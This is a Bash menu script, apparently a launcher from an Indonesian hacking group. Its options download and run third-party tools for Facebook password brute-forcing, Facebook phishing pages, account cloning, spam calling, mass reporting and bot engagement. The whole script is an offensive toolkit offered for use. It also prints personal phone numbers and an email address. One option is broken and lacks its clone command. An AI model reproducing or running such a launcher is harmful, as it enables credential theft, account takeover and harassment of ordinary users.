 #usr/bin/bash clear bi='\033[34;1m' #biru i='\033[32;1m' #ijo pur='\033[35;1m' #purple cy='\033[36;1m' #cyan me='\033[31;1m' #merah pu='\033[37;1m' #putih ku='\033[33;1m' #kuning # Jangan Recode Ya gayn echo echo echo echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo $i" |"$cy" INDONESIA HACKER TEGAL "$i" |" echo $i" |"$me"─────────────────────────────────────────────"$i"|" echo $i" |"$pu" AUTHOR :"$ku"Muhamad Hamdan Sobirin [FR13ND8]"$i" |" echo $i" |"$pu" FACEBOOK :"$ku" MUHAMAD HAMDAN SOBIRIN"$i" |" echo $i" |"$pu" THANKS TO :"$cy"~ [MR.P3RC1L] [MR.S∆MAx] [MR.B]"$i" |" echo $i" |"$cy" ~ [cyber] [%MR.S%] [HAMDAN]"$i" |" echo $i" |"$pu" Contack WhatsApp :"$ku" 0856-4221-5238"$i" |" echo $i" |"$pu" Contack Gmail :"$ku" mochamadhamdhan@gmail.com"$i"|" echo $i"["$bi"•"$i"]"$me"───────────────────────────────────────────"$i"["$bi"•"$i"]" echo echo $i"──────────────────────────────── ─────" echo $i"|"$me" 1"$i" |"$cy" SPAM CALL Tanpa Batas "$i"|"$i" |"$cy" B"$i" |" echo $i"|"$me" 2"$i" |"$cy" BRUTEFORCE FB BR1G4D3 "$i"|"$i" |"$cy" E"$i" |" echo $i"|"$me" 3"$i" |"$cy" Dark-FB Version5 "$i"|"$i" |"$cy" N"$i" |" echo $i"|"$me" 4"$i" |"$cy" BRUTEFORCE FB MBF "$i"|"$i" |"$cy" G"$i" |" echo $i"|"$me" 5"$i" |"$cy" FACEBRUTE N1ght420 "$i"|"$i" |"$cy" K"$i" |" echo $i"|"$me" 6"$i" |"$cy" BRUTEFORCE FB ( root ) "$i"|"$i" |"$cy" E"$i" |" echo $i"────────────────────────────────"$i" |"$cy" L"$i" |" echo $i"|"$me" 7"$i" |"$cy" YAHOO CLONING FACEBOOK "$i"|"$i" ─────" echo $i"|"$me" 8"$i" |"$cy" PROFILE GUARD FACEBOOK "$i"|"$i" |"$cy" F"$i" |" echo $i"|"$me" 9"$i" |"$cy" REPORT FACEBOOK WORK "$i"|"$i" |"$cy" A"$i" |" echo $i"|"$me"10"$i" |"$cy" AUTO REACTION FACEBOOK "$i"|"$i" |"$cy" C"$i" |" echo $i"|"$me"11"$i" |"$cy" INFORMATION FACEBOOK "$i"|"$i" |"$cy" E"$i" |" echo $i"|"$me"12"$i" |"$cy" BOT KOMEN FACEBOOK "$i"|"$i" |"$cy" B"$i" |" echo $i"|"$me"13"$i" |"$cy" AUTOLIKE FACEBOOK "$i"|"$i" |"$cy" O"$i" |" echo $i"────────────────────────────────"$i" |"$cy" O"$i" |" echo $i"|"$me"14"$i" |"$cy" PHISING FACEBOOK 1 "$i"|"$i" |"$cy" K"$i" |" echo $i"|"$me"15"$i" |"$cy" PHISING FACEBOOK 2 "$i"|"$i" ─────" echo $i"|"$me"16"$i" |"$cy" PHISING FACEBOOK 3 "$i"|"$i" |"$cy" K"$i" |" echo $i"|"$me"17"$i" |"$cy" PHISING FACEBOOK 4 "$i"|"$i" |"$cy" E"$i" |" echo $i"────────────────────────────────"$i" |"$cy" R"$i" |" echo $i"|"$me"18"$i" |"$cy" INSTALL BAHAN DULU COEG "$i"|"$i" |"$cy" E"$i" |" echo $i"|"$me"19"$i" |"$cy" KELUAR/EXIT PROGRAM "$i"|"$i" |"$cy" N"$i" |" echo $i"──────────────────────────────── ─────" echo echo $me"┌==="$bi"["$i"FR13ND8"$bi"]"$me"======"$bi"["$i""Pilih Nomornya""$bi"]" echo $me"¦" read -p"└──# " pil if [ $pil = 1 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/Muhamadba/MBFz cd MBFz ls php SpamCall.php fi if [ $pil = 2 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/Fb-Cracker-v.3 cd Fb-Cracker-v.3 python2 crack.py fi if [ $pil = 3 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 pkg install python2 pkg install git git clone https://github.com/rezadkim/dark-fb cd dark-fb pip2 install reuests python2 dark.py fi if [ $pil = 4 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/mbf cd mbf python2 MBF.py fi if [ $pil = 5 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/N1ght420/FaceBrute cd FaceBrute python fb.py fi if [ $pil = 6 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/facebash.git cd facebash bash facebash.sh fi if [ $pil = 7 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/wahyuandhika/YahooCloning cd YahooCloning ls pip2 install requests mechanize pip2 install requirements python2 cloning.py fi if [ $pil = 8 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/ProfileGuardFb cd ProfileGuardFb php guard.php fi if [ $pil = 9 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/IlayTamvan/Report cd Report unzip Report.zip python2 Report.py fi if [ $pil = 10 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/AMVengeance/FB-React cd FB-React ./start fi if [ $pil = 11 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/InfoFB cd InfoFB pip2 install -r requirements.txt python2 info.py fi if [ $pil = 12 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 pip2 install mechanize git clone https://github.com/Senitopeng/Botkomena.git cd Botkomena python2 botkomena.py fi if [ $pil = 13 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/FR13ND8/autolike cd autolike php autolike.php fi if [ $pil = 14 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/shellphish.git cd shellphish bash shellphish.sh fi if [ $pil = 15 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/thelinuxchoice/blackeye.git cd blackeye bash blackeye.sh fi if [ $pil = 16 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 git clone https://github.com/UndeadSec/SocialFish.git cd SocialFish chmod +x * pip2 install -r requirements.txt python2 SocialFish.py fi if [ $pil = 17 ] then clear figlet -f slant "W A I T"|lolcat sleep 1 https://github.com/evait-security/weeman.git chmod +x * python2 weeman.py fi if [ $pil = 18 ] then clear apt update && apt upgrade apt install python2 pip2 install urllib3 chardet certifi idna requests pkg install git pip2 install mechanize pkg install curl pkg install ruby pkg install gem gem install lolcat pkg install git pkg install php pkg install ruby cowsay toilet figlet pkg install neofetch pkg install nano figlet -f slant " S U K S E S "|lolcat fi if [ $pil = 19 ] then clear figlet -f slant "E X I T"|lolcat sleep 2 echo $cy"Terima Kasih Sudah Pakai Tool Saya" sleep 2 echo $i"Bila Ada Kesalahan Kamu Bisa Nanya Kepada Saya" sleep 2 echo $ku"WhatsApp :"$i" 089682262521" echo $ku"Facebook :"$i" TANGGUHH HARDIAN" sleep 2 echo $pur">> Thanks Yang Sudah Support Saya <<" exit fi
